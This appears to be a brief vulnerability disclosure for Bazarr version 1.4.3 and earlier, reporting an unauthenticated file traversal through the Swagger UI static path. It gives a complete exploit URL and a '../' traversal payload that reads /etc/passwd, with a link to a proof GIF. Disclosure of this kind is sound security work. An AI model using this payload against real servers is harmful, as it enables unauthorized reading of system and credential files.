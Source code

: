 Vulnerability: File Traversal via path filename


URL: ```http://172.17.0.12:6767/api/swaggerui/static/../../../../../../../../../../../../../../../../etc/passwd```


Payload: ```../../../../../../../../../../../../../../../../etc/passwd```


Action to trigger: None


Version: ‎Version v1.4.3 and prior


Authenticated: No


User: None


https://github.com/morpheus65535/bazarr


![](https://github.com/4rdr/proofs/blob/main/gifs/Bazaar_1.4.3_File_Traversal_via_Filename.gif)
